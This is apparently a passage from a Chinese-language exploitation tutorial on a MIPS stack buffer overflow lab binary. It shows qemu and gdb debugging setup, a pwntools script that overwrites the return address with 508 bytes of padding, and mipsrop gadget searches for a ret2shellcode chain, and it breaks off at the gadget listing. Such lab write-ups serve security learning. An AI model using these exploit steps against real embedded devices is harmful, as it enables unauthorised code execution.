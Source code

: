 > 程序调试
`qemu-mipsel-static -g 1234 -L ./mipsel ./vuln_system  PAYLOAD`
-g 指定调试端口， -L 指定 lib 等文件的目录，当程序起来之后
`gdb-multiarch stack_bof_02` 运行如下命令，然后在 gdb 里运行 `target remote 127.0.0.1:1234` 即可挂上调试器
![image-20201028032102193](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028032104.png)
> 控制 PC
![image-20201028030936453](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028030938.png)
返回地址位于 $sp+532 , buf 位于 $fp+24
即 padding 为 `pay += b'a'*508`
```python
# padding :532 - 24 = 508
from pwn import *

context.log_level = 'debug'

pay =  b''
pay += b'a'*508
pay += b'b'*4

# with open('payload','wb') as f:
#     f.write(pay)

p = process(['qemu-mipsel-static', '-L', './mipsel', '-g', '1234','./stack_bof_02', pay])
# p = process(['qemu-mipsel-static', '-L', './mipsel', './stack_bof_02'])
pause()
p.interactive()
```
如下图所示，即可控制 ra 寄存器，进而控制 PC
![image-20201028031118603](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/20201028031120.png)
> 查找使用的 gadget 完成 ret2shellcode
由于程序没有开启 PIE 等 保护，所以我们可以直接在栈上注入 shellcode，然后控制 PC跳转到栈上

找 gadget 我们可以使用 mipsrop.py 这个 ida 插件进行。

由于 mips 流水指令集的特点，存在 cache incoherency 的特性，需要调用 sleep 或者其他函数将数据区刷新到当前指令区中去，才能正常执行 shellcode。为了找到更多的 gadget，以及这是一个 demo ，所有我们在 libc 里查找
#### 1. 调用 sleep 函数
调用 sleep 函数之前，我们需要先找到对 a0 进行设置的 gadget
```
Python>mipsrop.find("li $a0, 1")
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x000B9350  |  li $a0,1                                            |  jalr  $s2                             |
|  0x000E2660  |  li $a0,1                                            |  jalr  $s2                             |
|  0x00109918  |  li $a0,1                                            |  jalr  $s1                             |
|  0x0010E604  |  li $a0,1                                            |  jalr  $s2                             |
|  0x0012D650  |  li $a0,1                                            |  jalr  $s0                             |
|  0x0012D658  |  li $a0,1                                            |  jalr  $s2                             |
|  0x00034C5C  |  li $a0,1                                            |  jr    0x18+var_s4($sp)                |
|  0x00080100  |  li $a0,1                                            |  jr    0x18+var_s4($sp)                |
```